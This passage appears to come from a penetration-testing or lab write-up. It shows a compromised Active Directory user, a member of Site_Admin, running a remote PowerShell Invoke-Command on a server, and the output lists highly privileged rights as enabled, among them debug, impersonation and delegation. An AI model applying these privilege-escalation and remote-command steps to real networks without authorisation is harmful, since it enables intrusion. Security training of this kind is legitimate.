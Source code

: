 From here, it should be possible to get a shell. As a member of
`Site_Admin`, awallace can now connect without the `dc_manage`
configuration, opening all sorts of commands and privileges:



    PS C:\Utils> Invoke-Command -ScriptBlock { whoami /priv  } -ComputerName ATSSERVER -Credential $cred

    PRIVILEGES INFORMATION                                                                                   
    ----------------------

    Privilege Name                            Description                                                        State                                                                                                 
    ========================================= ================================================================== =======                                                                                               
    SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled                                                                                               
    SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
    SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
    SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled    
    SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
    SeSystemProfilePrivilege                  Profile system performance                                         Enabled
    SeSystemtimePrivilege                     Change the system time                                             Enabled
    SeProfileSingleProcessPrivilege           Profile single process                                             Enabled                                                                                               
    SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled                                                                                               
    SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled                                                                                               
    SeBackupPrivilege                         Back up files and directories                                      Enabled                                                                                               
    SeRestorePrivilege                        Restore files and directories                                      Enabled                                                                                               
    SeShutdownPrivilege                       Shut down the system                                               Enabled                                                                                               
    SeDebugPrivilege                          Debug programs                                                     Enabled                                                                                               
    SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled      
    SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
    SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
    SeUndockPrivilege                         Remove computer from docking station                               Enabled                                                                                               SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
    SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled                                                                                               
    SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled                                                                                               
    SeCreateGlobalPrivilege                   Create global objects                                              Enabled                                                                                               
    SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled                                                                                               
    SeTimeZonePrivilege                       Change the time zone                                               Enabled                                                                                               
    SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled               